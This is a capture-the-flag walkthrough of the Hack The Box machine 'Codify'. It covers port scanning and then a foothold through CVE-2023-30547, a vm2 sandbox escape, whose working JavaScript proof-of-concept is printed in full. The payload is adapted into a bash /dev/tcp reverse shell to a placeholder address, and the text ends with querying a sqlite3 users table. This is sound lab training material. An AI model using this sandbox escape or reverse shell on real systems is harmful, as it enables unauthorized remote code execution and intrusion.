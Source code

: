 # Codify

Codify is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 and 3000 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.239   codify.htb" | sudo tee -a /etc/hosts
```

![website](./assets/images/website.png)

It's a website in which we can test our **Nest.js** code. So a **sandbox** for Nest.js.
Let's perform dirsearch on this website.

![gobuster](./assets/images/gobuster.png)

## Foothold

Well nothing much, but in the about page it say that the use the **vm2** library. And after a little search we found the [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547). For the poc there is this payload which allow you to do remote code execution:

```javascript
const {VM} = require("vm2");
const vm = new VM();
const code = `
err = {};
const handler = {
getPrototypeOf(target) {
(function stack() {
new Error().stack;
stack();
})();
}
};
const proxiedErr = new Proxy(err, handler);
try {
throw proxiedErr;
} catch ({constructor: c}) {
c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`
console.log(vm.run(code));
```

This code will execute the `id` command, but we want a **reverse shell** so we will replace `id` by this:

```bash
bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/0000 <&1'
```

Replace `0.0.0.0` by your **ip** and `0000` by the port of your **netcat** listener use.

![revshell](./assets/images/revshell.png)

We have our revshell as user **svc**!

## User flag

We found a interesting file in `/var/www/contact`. It's a **sqlite3** database.

![file_tickets](./assets/images/file_tickets.png)

Let's open it with the command:
```bash
sqlite3 tickets.db
```
Use `.tables` to show all the tables and `select * from users;` to see what the users tables contain.